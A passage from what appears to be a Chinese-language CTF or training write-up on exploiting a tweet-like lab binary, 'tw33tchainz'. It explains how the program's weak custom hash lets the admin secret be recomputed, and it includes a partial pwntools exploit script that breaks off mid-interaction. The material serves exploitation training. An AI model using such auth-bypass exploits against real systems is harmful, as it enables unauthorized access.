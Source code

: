 利用效果如下：

![][5]

# 0x02 Project One

## 功能概述

此课题直接给了一个可运行的二进制程序，IDA F5之后即可知道大致逻辑，其为一个类似发tweet的小程序：

1. 初始化：会要求输入账号，盐值，结合生成的随机数自己实现了一个算法给你password，相当于注册功能。
2. 发推：堆上申请24字节空间，前16字节fgets得到，紧接着4字节存储下条推文的起始地址，形成单向链表。
3. 看推：根据存储的全局变量链表头，循环输出查看所有的推文。
4. 鉴权：验证是否为管理员权限，设置相应的全局变量，并具有额外的功能可使用。

## 管理员认证

通过maybe_admin函数，判断输入的密码和之前用于生成密码的随机数是否相同，相同则认证成功。但是程序自己设计的hash算法很简单：

![][6]

其中user和salt都已知，secretpass很轻松就可以算出来了，但需要注意三个坑点：

1. 根据代码逻辑接收输入都为`fgets(xxx, 16, stdin`，当小于16字节时字符串尾部会带上`\x0a\x00`+padding。
2. 用户的password是`%08x%08x%08x%08x\n`这样printf出来的，由于大小端问题还是需要逆序处理数据。
3. 字符运算过程中进位问题取模一下就好。

因为要求自动化，这程序的输入输出也有点乱，就用pwntools就可以了（代码有些丑）：

```python
#!/usr/bin/env python

from pwn import *

input_username = 'larry'
input_salt = 'xi'

def get_secretpass(password):
    username = input_username + '\x0a\x00' + chr(204)*9
    salt = input_salt + '\x0a\x00' + chr(186)*12
    passwd = ''
    for i in xrange(0, 32, 2):
        passwd += chr(int('0x'+password[i:i+2], 16))
    rpass = ''
    for i in xrange(0, 16, 4):
        rpass += passwd[i:i+4][::-1]
    secret = ''
    for i in xrange(16):
        secret += chr(((ord(rpass[i]) ^ ord(username[i])) - ord(salt[i]))%256)

    return secret

#context.log_level = 'debug'
p = process('./tw33tchainz')
p.recvline_contains('Username')
p.sendline(input_username)
p.recvline_contains('Salt')
p.sendline(input_salt)
p.recvline_contains('Password')
password = p.recvline(keepends = False)
p.sendline(' ')
p.recvuntil('Choice: ')
p.sendline('3')
p.recvuntil('password: ')
```

[1]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8c7x50j20k6053dgl.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8daxttj20k40a20tv.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8e2x3dj20k104nq3g.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8f79unj20k104hjri.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fpbl8gmrlqj20k105gq3i.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8hjp4zj20py08jq3g.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8i9zycj20i30410t3.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8jbdu4j20kd09dwem.jpg
[9]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8l9yv1j20iu05ct8p.jpg
[10]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8m2y7sj20le093aao.jpg